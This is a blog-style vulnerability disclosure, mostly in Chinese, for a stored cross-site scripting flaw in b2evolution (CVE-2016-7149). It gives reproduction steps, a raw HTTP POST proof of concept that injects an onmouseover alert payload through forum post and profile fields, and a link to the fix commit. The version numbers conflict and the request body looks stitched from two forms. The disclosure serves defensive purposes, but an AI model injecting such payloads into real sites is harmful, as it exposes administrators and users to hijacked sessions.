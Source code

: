 ```yaml
---
layout: post
title: B2evolution v6.4.7 forum XSS [CVE-2016-7149]
---
```


发现者: 陈瑞琦 

发现日期: 2016-08-11

下载地址: [b2evolution](http://b2evolution.net/downloads/)

作者: b2evolution.net

作者通知日期: 2016-08-11

作者联系手段: http://b2evolution.net/?disp=msgform

CVE-ID：CVE-2016-7149

**描述:**

b2evolutioe is a content and community management system written in PHP and backed by a MySQL database. It is distributed as free software under the GNU General Public License.
b2evolution originally started as a multi-user multi-blog engine when Fran?ois Planque forked b2evolution from version 0.6.1 of b2/cafelog in 2003.[2] A more widely known fork of b2/cafelog is WordPress. b2evolution is available in web host control panels as a "one click install" web app.[3](Wiki)

**细节:** 

B2evolutioes stored XSS in b2evolution version 6.7.5

Any user can post a forum with some evil code in it.

And when the admin see the forum, the page is lack of filter to protect the admin.

Step 1 : Register a user of the web-site, active the user by mail.

Step 2 : Post a forum with some thing like 
<pre><code>
[test_forum_xss](http://test.forum.xss"onmouseover="alert(1)"on="1 "test_forum_xss")
</code></pre>
Step 3 : Save the changes

Step 4 : Any user view the forum, when the mouse over the content, the XSS code runs.

**PoC:**

`code`
<pre><code>
POST /b2evolution/htsrv/item_edit.php HTTP/1.1
Host: 192.168.204.130
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.204.130/b2evolution/index.php/forums/?disp=edit&cat=17
Cookie: session_b2evo_192_168_204_130=41_UqjtnJWp3oJZWVMtpznHzh4zgKxvBvTR; session_b2evo=87_j6i55FblKwr7rWFbheuTwjRaLbiN6ghM
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 636

post_title=test_forum_xss&content=%5Btest_forum_xss%5D%28http%3A%2F%2Ftest.forum.xss%22onmouseover%3D%22alert%281%29%22on%3D%221+%22test_forum_xss%22%29%0D%0A&renderers_displayed=1&renderers%5B%5D=b2evMark&renderers%5B%5D=b2evWiLi&renderers%5B%5D=b2evGMco&renderers%5B%5D=b2evALnk&renderers%5B%5D=evo_videoplug&renderers%5B%5D=b2WPAutP&post_category=17&post_extracats%5B%5D=17&actionArray%5Bcreate%5D=&crumb_item=IT6Hs70o5KE9J0kgz9nmWNnAhCfW4qeo&ctrl=items&blog=5&post_ID=0&redirect_to=http%3A%2F%2F192.168.204.130%2Fb2evolution%2Findex.php%2Fforums%2F%3Fdisp%3Dedit&preview=0&more=1&preview_userid=8&item_typ_ID=6&post_status=community
edited_user_login=kevino&edited_user_firstname=kevino&edited_user_lastname=kevino&edited_user_nickname=kevino&edited_user_gender=M&edited_user_ctry_ID=&edited_user_rgn_ID=&edited_user_subrg_ID=&edited_user_city_ID=&edited_user_age_min=&edited_user_age_max=&organizations%5B%5D=&uf_38=kevino&uf_39=kevino&uf_40=kevino&uf_41=https%3A%2F%2Ftwitter.com%2Fkevino%22onmouseover%3D%22alert%281%29%22onerror%3D%221&uf_42=https%3A%2F%2Ffacebook.com%2Fkevino&uf_43=http%3A%2F%2Fkevino.net%2Fkevino&new_field_type=3&actionArray%5Bupdate%5D=Save+Changes%21&crumb_user=CQ7LjBDKmMin8zqBDl050nNEbmINmIGi&user_tab=profile&identity_form=1&user_ID=8&blog=1&orig_user_ID=8&12_3=4_56

</code></pre>

**Fix:**

https://github.com/b2evolution/b2evolution/commit/9a4ab85439d1b838ee7b8eeebbf59174bb787811
